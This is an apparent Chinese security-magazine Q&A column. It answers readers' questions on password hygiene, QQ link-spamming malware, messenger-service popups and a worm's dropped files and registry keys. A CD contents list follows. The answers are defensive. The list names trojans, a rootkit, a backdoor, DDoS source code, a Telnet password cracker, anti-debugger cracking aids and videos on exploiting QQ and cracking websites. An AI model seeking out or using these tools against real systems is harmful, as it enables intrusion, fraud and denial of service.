guojpeng：这种问题在论坛问得比较多，这里专门谈谈这个问题。关于密码被盗，无论是QQ还是Email或是游戏账号密码，都是一个道理。我觉得我们应该从四个方面来考虑这个问题。第一，我们的密码自身安全吗？我们的密码强度到底怎么样？举例来说，上面网友caoyang789的QQ密码为caoyang789，安全性在哪呢？对于这一点，我建议大家设置自己密码时，首先要注意密码的强度，不要让你的密码与自己身份信息相关或在密码暴力破解工具的字典中找得到。密码一般应该至少由字母和数字来构成，并适当区分大小写，也可以采用特殊字符。为了好记，我们可以这样来构造密码：黑防第6期说密码保护（Hfd6Qsmmbh，即取每个汉字拼音第一个字母，数字照搬）。第二，另外多个网站密码最好不要相同（想想看，你的QQ密码是否与Email密码一样），否则，一个密码被盗，相当于所用ID的密码都会被盗。譬如，QQ密码丢失可能导致申请QQ密码保护的Email密码丢失。Email密码和密码保护如果被更改，即使申请了QQ密码保护也没有办法啊！

第三，我们使用电脑的环境安全吗？譬如在网吧碰到密码监视软件，在家里上网被人下了木马。还有什么方法能够避免密码被盗呢？这对于绝大多数人来说已经不是技术问题了。对于这种情况，我们惟有自己小心谨慎了，注意经常修改自己的密码，特别是在网吧使用过之后。第四，充分利用密码保护功能。对于密码保护相关问题要认真填写，密码保护问题答案不宜太简单，但是自己必须记得住。罗嗦了这么多，大家或许心里都明白，但是你做到了吗？

网友widelove在“在线问答”版说自己QQ给别人发的消息后面总带有“你告诉我http://520y.hk.st这qq号了，快去申请，我不知http://520y.hk.st去看我照片”，OUR.com在“病毒专栏”中发贴说“我的QQ发送时会携带以下信息：http://wonder.hk.st很好看的http://wonder.hk.st去看笑话http://wonder.hk.st帮我看这网站打的开吗？”请问，这是怎么回事？

guojpeng：在出了爱情森林、中国黑客等病毒以后会出现类似情况。现在采用这种方法的恶意程序和病毒比较多了。这种程序一般是先凭借QQ默认窗口标题查找QQ窗口，如果发现有发送窗口时，便将指定的消息附在用户正常发送消息之后，其实很多窃取QQ密码的程序也是这个原理。因此，我们采用改变QQ窗口标题的方法在一定程度上避免这种现象发生，现在网上QQ防护工具比较多，大家也可以在本期光盘找到。要真正解决这个问题，我们还需要将这个监视程序彻底清除，一般来说，这种程序会在注册表或相关启动位置做手脚以免获取控制权，所以我们在删除监视程序的同时还要解除相关启动项。

有网友反映最近上网时每隔一分钟就弹出一个名为“信使服务”的警示窗，其内容为：“从 FBQ 到 2003--X-X X：X：X 上 MSHOME 的消息，My god! Some one killed ChineseHacker--2Monitor”，请问这是怎么回事，如何解除？

guojpeng：这是因为局域网中有人中了中国黑客病毒。你只需要在 Windows 98 的 MS-DOS，或者 Windows 2000 的 cmd 中输入命令：“net stop messenger”，如此便不会再受到此类消息干扰。如果以后需要使用“net send computername（或对方 IP）发消息”给其他机器发送消息，你可以通过“net start messenger”命令重新打开信使服务。当然最好的解决方法还是应该找到这台中毒的机器对其进行杀毒，由于该病毒采用了三线程保护技术，手工清除起来比较麻烦，推荐你到金山等反病毒公司网站下载专杀工具进行查杀。

一位热心读者 Oak 来信问道：我用记事本写汇编语言的源代码，然后存为 1.txt，在 DOS 下用 MASM 1.txt 可以吗？如果不行，那应该怎么保存呀？怎么编译和运行它啊？

Heavyd：看来这位读者一定是汇编初学者了，小编我最喜欢助人为乐了：）其实，在进行编译的过程中用什么文件名都没关系，MASM 默认使用的后缀是“asm”，当然你可以用别的扩展名，如“txt”，在编译的时候指定完整的文件名即可，如：MASM 1.TXT，编译完成以后，会生成一个目标文件（1.obj），这时可以用 link.exe 进行编译：link 1.obj，最后生成一个 1.exe 了。至于 1.exe 怎么运行，我想就不用说了：）祝这位读者好运！

最近热心读者来信比较多，我们希望能和读者更加贴近，来自湖南长沙的清晨梧桐朋友，发来了一封“加急”的邮件，小编我吓得半天不敢看，担心打开就中彩了，嘿嘿，看来不是我中彩了：今天瑞星截获一个自动发送的邮件发送程序是“C:/WINNT/EXPLORER.EXE”，请问这个是不是我中了木马啊？

Heavyd：在 Google 查找了相关资料后，做如下回复：这个病毒在 3 月 9 日，国家计算机病毒应急处理中心通过监测发现，该病毒长度为 745,984 字节，病毒感染系统后，会生成病毒文件、修改注册表，并会在系统中植入后门，向外发送信息。系统中生成的病毒文件如下：

```
text
C:\winnt\fonts\explorer.exe
C:\winnt\fonts\omnithread_rt.dll
C:\winnt\fonts\VNCHooks.dll
C:\winnt\fonts\rundll32.exe
C:\winnt\system32\dvldr32.exe (NT)
C:\windows\system\dvldr32.exe (9x)
C:\winnt\system32\cygwin1.dll (NT)
C:\windows\system\cygwin1.dll (9x)
C:\windows\Start Menu\Programs\Startup\inst.exe (9x)
C:\winnt\All Users\Start Menu\Programs\Startup\inst.exe (NT)

修改注册表：
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
"TaskMan"="C:\\WINNT\\Fonts\\rundll32.exe"
"Explorer"="C:\\WINNT\\Fonts\\explorer.exe"
"messnger"="C:\\WINNT\\system32\\Dvldr32.exe"
```

- 可采取以下措施防范：

1. WindowsNT/2000 用户，应为 Administrator 设置一个强壮的密码。
2. 终止进程 dvldr32.exe 和 rundll32.exe。
3. 删除蠕虫在系统中生成的上述文件。
4. 重新启动计算机。

另外，现在各杀毒软件可对该病毒进行查杀。

娱乐之星读者 E-mail 问：我是一个局域网的网管，我们是用 ADSL 上网，我分配了固定的 IP 给其它的机器，但是他们总是乱改，我想绑定他们的 IP 和 MAC 地址，怎样才能做到这一点？

Heavyd：其实绑定 IP 和 MAC 地址的方法有几种：可以用网吧管理软件实现，这种方法最实际、最方便；或者用命令“arp -s ip mac”，这种方法比较麻烦；还可以在路由器上进行设置（每种路由绑定方法可能略有不同，具体请到 www.google.com 进行搜索吧，我就偷个懒啦，呵呵）。

# 杂志相关

- Cygwin0528：Windows 下的 Linux 本地安装版。
- QQ1230：最新 QQ 显 IP 版本，有很多新的功能。
- Winhex：一个非常好的编辑器。
- 16112_Clear_Foxmail：Foxmail 密码清理工具。
- Setup2.49n：天网防火墙个人版。
- psu：一个制造远程进程的程序。
- PGP8 Desktop Licensed：PGP 加密工具，可以让你的信息安全的到达对方。
- 8742_IconStealer：一个图标工具，可以对文件中的图标进行修改。
- joit.c：一个 DDOS 工具的 VC 代码编译。

# 经典工具

- pstools：很全的资源管理工具。
- putty：很 Cool 的连接管理工具。
- sqldict：SQL 字典工具。
- letmein：一个破解 Telnet 密码的工具。
- superscan：超级扫描工具。
- scrt401：用的最多的登陆工具，支持 SSH、Telnet 等。

# 木马后门

- peepjoke：台湾反弹木马简体版 + 动画教程，是一套运用反端口技术的远程监控软件。
- gwboy092A：户外野生远程控制，使用户外程序员独创的“线程插入”技术。基于成功的“户外幽灵”的先进技术，服务端运行时没有进程。
- njrootkit1.0：采用无连接协议，不开端口，有 4 种协议可以选择。

# 网络工具

- MacModify：网卡 MAC 地址修改程序，可以在 Windows NT/2000/XP 下修改指定网卡的 MAC 地址。
- QUEEN Ver：一个 DLL 木马后门程序。
- SMysql-v1.7：作族 SuperMysql 连接器，全新的控制界面，优化了代码，减少经常自动退出程序的 BUG。

# 网络聊天

- qqpc：本软件采用 QQ 标题动态更新法以及 QQ 子窗体内核属性修改法，轻轻松松阻拦 QQ 木马进行盗密的必要条件，能打击所有 QQ 盗密软件。
- qqspc：该软件汇集了 QQ 聊天的大部分常用工具。

# 破解专题

- RW-pl1621：将 SuperBPM 工具与 TRW 二合一。
- smartcheck6.2：针对 Visual Basic 的主要的自动错误检测和调试工具。
- Ollydbg_v1.09：一个新的动态追踪工具。
- vbdebug14e：动态破解 VB P-code 程序的工具。
- FROGSICE：适用 SoftICE 4.00 以上版本，配合 SoftICE，以欺骗程序达到隐藏 SoftICE 目的。
- ID6026_ntice114：配合 SoftICE 使用，可抓取内存的数据，在脱壳时很管用，并且可增强 SoftICE 跟踪能力，基本可不用 Frogsice 打补丁。

# 安全防护

- snort-2.0.0：高性能、高稳定性的轻量型入侵检测系统，适合中小企业应用。
- Spy Sweeper：自动检测并清除系统的间谍软件，如：木马、键盘纪录和广告程序。
- lear-reg：注册表清理器。
- Terminz1：网络连接追捕软件，可以用来监视所有对外连接的端口，并可以产生日志文件。

# 扫描工具

- WebDAVScan-cn：针对 Windows 2000 WebDAV 远程缓冲区溢出漏洞扫描工具。
- BluesPortScan：这是一款速度很快的端口扫描器，支持 TCP、UDP 单独扫描，可以指定 IP 段以及指定端口范围扫描。
- hscan1.2：运行在 Windows NT/2000/XP 下多线程方式对指定 IP 段（指定主机），或主机列表，进行漏洞、弱口令账号、匿名用户检测的工具。
- chickenhunter：网络肉鸡猎手。

# 其他工具

- 黑客游戏全攻略：黑客游戏过关录像。
- 利用 exescope 汉化软件：利用资源修改工具来汉化软件。
- 免费会员 QQ 获取实录：利用 QQ 漏洞升级称 QQ 会员。
- 破解网站：破解网站的动画。
- 用 Winhex 破解还原精灵：破解还原精灵动画。
- peep 动画教程：反响连接木马演示。